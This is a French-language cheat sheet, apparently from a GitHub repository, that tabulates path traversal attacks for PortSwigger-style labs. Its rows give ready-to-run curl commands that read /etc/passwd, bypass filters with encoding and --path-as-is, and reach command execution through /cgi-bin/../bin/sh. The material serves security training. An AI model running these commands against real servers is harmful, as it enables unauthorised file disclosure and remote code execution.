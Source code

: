 # Path traversal

Voici un tableau synthétique pour l’analyse et la découverte des failles de Path Traversal sur des applications web (notamment les labs PortSwigger), **avec des commandes curl différenciées pour l’attaque et l’analyse** selon chaque cas, des charges utiles neutres, et des explications claires en français :

| Type / Lab                             | Payload d’attaque neutre (exemple)          | Commande d’attaque (curl)                                                                                               | Commande(s) d’analyse curl                                                                                       | Élément d’analyse (raison préalable)                       | Méthodologie détaillée de découverte                                                                                   | Source / URL utile                      |
|-----------------------------------------|---------------------------------------------|-------------------------------------------------------------------------------------------------------------------------|------------------------------------------------------------------------------------------------------------------|------------------------------------------------------------|-----------------------------------------------------------------------------------------------------------------------|------------------------------------------|
| Path Traversal basique (réponse visible)| ../../etc/passwd                            | curl -G --data-urlencode "file=../../etc/passwd" https://LAB/download                                                   | curl -G --data-urlencode "file=image.jpg" https://LAB/download                                                   | Affichage du contenu d’un fichier système                  | Injectez un chemin relatif remontant l’arborescence dans un paramètre de fichier. Comparez la réponse avec celle d’un fichier légitime. Si le contenu du fichier système apparaît, la faille est présente. |[1][3][6]                              |
| Path Traversal encodé                   | ..%2f..%2f..%2fetc%2fpasswd                 | curl -G --data-urlencode "file=..%2f..%2f..%2fetc%2fpasswd" https://LAB/download                                        | curl -G --data-urlencode "file=image.jpg" https://LAB/download                                                   | Affichage du contenu d’un fichier système                  | Utilisez l’encodage URL pour contourner d’éventuels filtres. Comparez la réponse à celle d’un fichier légitime. |[1][4][5]                              |
| Path Traversal avec --path-as-is (curl) | /public/../../../../etc/passwd               | curl --path-as-is "https://LAB/public/../../../../etc/passwd"                                                           | curl --path-as-is "https://LAB/public/image.jpg"                                                                  | Affichage du contenu d’un fichier système                  | Utilisez l’option --path-as-is pour empêcher curl de normaliser le chemin. Si le contenu du fichier système apparaît, la faille est confirmée. |[5][7]                                  |
| Path Traversal sur endpoint CGI         | /cgi-bin/../../../../etc/passwd              | curl --path-as-is "https://LAB/cgi-bin/../../../../etc/passwd"                                                          | curl --path-as-is "https://LAB/cgi-bin/test.txt"                                                                  | Affichage du contenu d’un fichier système                  | Testez les endpoints dynamiques (CGI, scripts). Si le contenu du fichier système s’affiche, la faille existe. |[4][5]                                  |
| Path Traversal menant à RCE (si CGI)    | /cgi-bin/../../../../bin/sh + POST           | curl -X POST --path-as-is "https://LAB/cgi-bin/../../../../bin/sh" -d "echo;id"                                         | curl -X POST --path-as-is "https://LAB/cgi-bin/../../../../bin/sh" -d "echo;date"                                 | Résultat d’une commande système dans la réponse            | Exploitez la faille pour exécuter une commande via un binaire système accessible (ex : /bin/sh). Si la réponse contient le résultat de la commande, la faille permet une RCE. |[4][5]                                  |
| Path Traversal aveugle (fichier inexistant)| ../../etc/fichier-inexistant                | curl -G --data-urlencode "file=../../etc/fichier-inexistant" https://LAB/download                                       | curl -G --data-urlencode "file=image.jpg" https://LAB/download                                                   | Différence de message d’erreur ou de code HTTP             | Demandez un fichier inexistant pour observer la différence de message d’erreur ou de code HTTP. Cela aide à confirmer la vulnérabilité même sans lecture de fichier. |[3][6]                                  |

---
